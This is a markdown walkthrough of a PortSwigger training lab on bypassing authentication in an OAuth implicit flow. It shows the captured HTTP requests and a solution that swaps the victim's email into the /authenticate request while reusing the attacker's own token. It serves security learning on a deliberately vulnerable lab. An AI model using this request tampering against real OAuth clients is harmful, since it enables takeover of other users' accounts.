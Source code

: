 # [Lab: Authentication bypass via OAuth implicit flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)

## Lab

This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password.

To solve the lab, log in to Carlos's account. His email address is `carlos@carlos-montoya.net`.

You can log in with your own social media account using the following credentials: `wiener:peter`.

## Analysis

implicit grant type

1. Authorization request

    ```http
    GET /auth?client_id=p447fk5sfcqxon0f46sol&redirect_uri=https://0a110075041e8104c1fc127a0050006f.web-security-academy.net/oauth-callback&response_type=token&nonce=2036205661&scope=openid%20profile%20email HTTP/1.1
    ```

2. User login and consent

    ```http
    POST /interaction/R4FyNIEHjtdvvoYeUxaOp/confirm HTTP/1.1
    ```

3. Access token grant

    ```url
    https://id.web-security-academy.net/oauth-callback#access_token=WEteyVg6x1ph8xvu_EyntalG6PBAo8MQc7sg6PaxvxQ&amp;expires_in=3600&amp;token_type=Bearer&amp;scope=openid%20profile%20email
    ```

4. API call

    ```http
    GET /me HTTP/1.1
    Host: oauth-id.web-security-academy.net
    Authorization: Bearer WEteyVg6x1ph8xvu_EyntalG6PBAo8MQc7sg6PaxvxQ

    HTTP/1.1 200 OK

    {"sub":"wiener","name":"Peter Wiener","email":"wiener@hotdog.com","email_verified":true}
    ```

after:

```http
POST /authenticate HTTP/1.1

{"email":"wiener@hotdog.com","username":"wiener","token":"WEteyVg6x1ph8xvu_EyntalG6PBAo8MQc7sg6PaxvxQ"}
```

## Solutions

intercept the request come after implicit grant type and modify it from:

```http
POST /authenticate HTTP/1.1

{"email":"wiener@hotdog.com","username":"wiener","token":"WEteyVg6x1ph8xvu_EyntalG6PBAo8MQc7sg6PaxvxQ"}
```

to:

```http
POST /authenticate HTTP/1.1

{"email":"carlos@carlos-montoya.net","username":"wiener","token":"WEteyVg6x1ph8xvu_EyntalG6PBAo8MQc7sg6PaxvxQ"}
```

=> server trusts it, solved
